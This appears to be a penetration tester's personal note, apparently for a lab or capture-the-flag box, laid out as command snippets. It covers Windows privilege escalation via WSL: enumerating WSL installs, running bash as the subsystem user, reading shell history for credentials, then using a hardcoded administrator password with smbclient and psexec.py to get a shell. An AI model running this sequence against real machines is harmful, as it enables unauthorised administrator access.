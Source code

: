```yaml
---
category: Uncategorized
tags: []
---
```

[[99.__Links (WINDOWS)#Escalation Path Windows Subsystem for Linux]]

```powershell - target
Get-ChildItem HKCU:\Software\Microsoft\Windows\CurrentVersion\Lxss | %{Get-ItemProperty $_.PSPath} | out-string -width 4096
```

```command prompt - windows
where /R C:\windows bash.exe
```

```command prompt - windows
where /R C:\windows wsl.exe
```


![[Pasted image 20220203172255.png]]

```command prompt - windows
C:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.17134.1_none_686f10b5380a84cf\wsl.exe whoami
```

![[Pasted image 20220203172529.png]]

```command prompt - windows
C:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
```

```bash - wsl
uname -a
```

![[Pasted image 20220203172713.png]]

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Shell break]]

```bash - wsl
history
```

![[Pasted image 20220203173050.png]]

```bash - kali
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\$TARGET\\c$
```

[[zz._Gaining Shell Access (psexec.py)]]

```bash - kali
psexec.py '$USER:$PASSWORD'@$TARGET
```
